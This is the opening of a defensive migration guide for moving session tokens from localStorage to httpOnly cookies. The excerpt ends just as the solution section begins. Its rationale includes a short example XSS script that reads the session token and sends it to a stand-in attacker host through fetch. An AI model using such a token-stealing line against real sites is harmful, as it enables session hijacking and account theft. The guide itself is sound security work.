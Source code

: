 # VULN-003 Migration Guide: localStorage → httpOnly Cookies

**Date**: 2025-10-28
**Status**: Migration Complete
**Breaking Change**: Yes (but backward compatible)

---

## Table of Contents

1. [Overview](#overview)
2. [Why This Migration?](#why-this-migration)
3. [Technical Changes](#technical-changes)
4. [Step-by-Step Migration](#step-by-step-migration)
5. [Testing Guide](#testing-guide)
6. [Troubleshooting](#troubleshooting)
7. [Rollback Plan](#rollback-plan)

---

## Overview

This guide documents the migration from localStorage-based session management to httpOnly cookie-based authentication.

**Migration Type**: Zero-downtime with backward compatibility

**Impact**:
- ✅ Backend: 5 files modified
- ✅ Frontend: 2 files modified
- ✅ User Experience: No impact (automatic)
- ✅ API Contract: No changes

---

## Why This Migration?

### Security Problem

localStorage is vulnerable to XSS (Cross-Site Scripting) attacks:

```javascript
// Attacker's malicious script (if XSS exists)
const token = localStorage.getItem('sessionToken');
fetch('https://attacker.com/steal?token=' + token);

// Result: Session hijacked, account compromised
```

### Solution: httpOnly Cookies

httpOnly cookies **cannot** be accessed by JavaScript:
